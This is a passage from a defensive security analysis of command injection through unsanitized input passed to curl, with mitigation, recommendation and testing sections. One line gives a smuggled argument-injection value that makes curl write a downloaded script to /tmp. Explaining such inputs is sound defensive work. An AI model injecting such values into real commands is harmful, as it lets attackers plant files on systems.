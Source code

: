 * **Argument Injection:** Attackers might try to inject additional `curl` arguments. For example, if the application constructs a command like `curl <user_provided_url>`, an attacker could input `--output /tmp/evil.sh https://example.com` to write the content of the URL to a file.
* **Environment Variable Manipulation:** In some scenarios, attackers might be able to influence environment variables that are used in the construction or execution of the `curl` command.
* **File Path Manipulation:** If the `curl` command involves file paths derived from user input, attackers might try to manipulate these paths to access or modify unintended files.

**7. Defense in Depth:**

While preventing command injection is paramount, a defense-in-depth approach is crucial:

* **Principle of Least Privilege:** Run the application with the minimum necessary privileges. This limits the damage an attacker can cause even if command injection is successful.
* **Input Validation and Sanitization (as discussed above).**
* **Output Encoding:** If the output of the `curl` command is displayed to users, ensure proper encoding to prevent cross-site scripting (XSS) vulnerabilities.
* **Security Auditing and Code Reviews:** Regularly review the codebase for potential vulnerabilities, including command injection flaws.
* **Web Application Firewalls (WAFs):** WAFs can help detect and block malicious requests that attempt to exploit command injection vulnerabilities.
* **Intrusion Detection and Prevention Systems (IDPS):** Monitor system activity for suspicious commands and patterns that might indicate a command injection attack.
* **Regular Security Updates:** Keep the operating system, libraries, and `curl` itself updated to patch known vulnerabilities.

**8. Recommendations for the Development Team:**

* **Prioritize Parameterization:**  Make it a standard practice to use parameterization or safe methods for constructing `curl` commands.
* **Educate Developers:** Ensure the development team understands the risks of command injection and how to prevent it.
* **Establish Secure Coding Guidelines:** Incorporate guidelines for secure `curl` usage into the team's coding standards.
* **Implement Automated Security Testing:** Integrate static analysis tools and dynamic application security testing (DAST) to automatically detect potential command injection vulnerabilities.
* **Conduct Regular Penetration Testing:** Engage security professionals to perform penetration testing and identify vulnerabilities in the application.

**9. Testing and Verification:**

To verify the effectiveness of mitigation strategies, the following testing methods should be employed:

* **Manual Testing:**  Attempt to inject various malicious commands into the application's input fields or through API requests.
* **Automated Security Scanning:** Utilize static analysis tools (SAST) to identify potential command injection vulnerabilities in the source code.
* **Dynamic Application Security Testing (DAST):** Use DAST tools to simulate real-world attacks and identify vulnerabilities in the running application.
* **Penetration Testing:** Engage security experts to perform comprehensive penetration testing to uncover vulnerabilities that might be missed by automated tools.

**Conclusion:**

Command injection via unsanitized input in `curl` commands represents a significant threat to our application. By understanding the mechanics of the attack, its potential impact, and diligently implementing the recommended mitigation strategies, we can significantly reduce the risk of exploitation. The development team must prioritize secure coding practices, focusing on parameterization and rigorous input validation, to protect our application and its users from this critical vulnerability. Continuous vigilance, regular security assessments, and ongoing education are essential to maintain a strong security posture.
